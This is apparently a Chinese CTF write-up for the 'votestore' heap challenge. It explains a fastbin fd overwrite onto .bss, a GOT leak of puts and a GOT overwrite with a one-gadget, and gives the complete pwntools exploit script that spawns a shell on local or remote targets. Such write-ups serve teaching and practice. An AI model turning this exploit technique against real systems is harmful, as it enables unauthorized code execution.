

# votestore 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |2.23-0ubuntu3|

## 解题思路

只有一个chunk，是固定大小的0x36（即分配size为0x41的chunk），由于字节错位所要求的size为0x71，
故不可能通过字节错位来打

看了一下bss上的数据，突然意识到got是可写的，那么就不需要打mallocHook，只要把`puts`的地址改成oneGadget，
就可以拿到shell了

程序中有一个限制操作次数的变量，记为`interact`，在查看数据时不难看出`interact`和堆指针`ptr`是放在一起的:



如果视`0x6010a0`为chunk头，那么只要反复交互，使`interact`达到0x41就可以过堆块验证

那么先释放掉堆块后改`fd`为`0x6010a0`就可以将堆块分配到bss上，接下来malloc以后我们就能操作`ptr`了。
将`ptr`修改为`0x601020`再`show`，就可以读出`puts@libc`，然后计算libcBase，在原地写上oneGadget，
就可以拿到shell了

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'

def payload(lo:int):
    global sh
    if lo:
        sh = process('./votestore')
        if lo & 2:
            gdb.attach(sh)
    else:
        context.proxy = (socks.SOCKS5, '127.0.0.1', 1080)
        sh = remote('192.168.16.186', 9999)
    libc = ELF('./votestore.so')

    def addn(hooked:bool=False):
        sh.sendlineafter(b'ice :', b'1')

    def edit(f1:bytes, f2:bytes, shell:bool=False):
        sh.sendlineafter(b'ice :', b'2')
        sh.sendafter(b'name:', f1)
        if shell:
            return
        sh.sendafter(b'data:', f2)

    def deln():
        sh.sendlineafter(b'ice :', b'3')

    def show() -> tuple[bytes]:
        sh.sendlineafter(b'ice :', b'4')
        sh.recvuntil(b'name:')
        name = sh.recvline()
        sh.recvuntil(b'data:')
        data = sh.recvline()
        return name, data

    def eout():
        sh.sendlineafter(b'ice :', b'5')

    # increase interaction time
    addn()
    deln()
    for _ in range(0x40 - 3):
        show()

    # alloc at bss 0x6010a0 and mod the ptr to 0x601020(puts@libc)
    edit(p64(0x6010a0), b'nodata')
    addn()
    addn()
    edit(p64(0x601020), b'nodata')
    # edit(p64(0x601040), p64(0x4006f6)) # testing other libc addr

    # then read out the libc(puts) on got and calc one gadget
    puts, f2 = show()
    debug(f'{puts = }; {f2 = }')
    libcBase = u64(puts[:6] + b'\0\0') - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libc: {hex(libcBase)}'))
    ogg = 0xef9f4
    oneGadget = libcBase + ogg

    # now edit puts as one gadget so puts@plt triggers shell
    edit(p64(oneGadget), p64(oneGadget), True) # when writing data calls puts
    sh.clean()
    sh.interactive()
```

> 又是本地通远程不通...  
> 打远程的时候发现libcBase完全错误，想拿远程的各种地址推测libc，结果少约束几个地址吧，
> 候选项太多，多约束几个地址吧，一个匹配的都没了，严重怀疑主办方没有验证题目的正确性
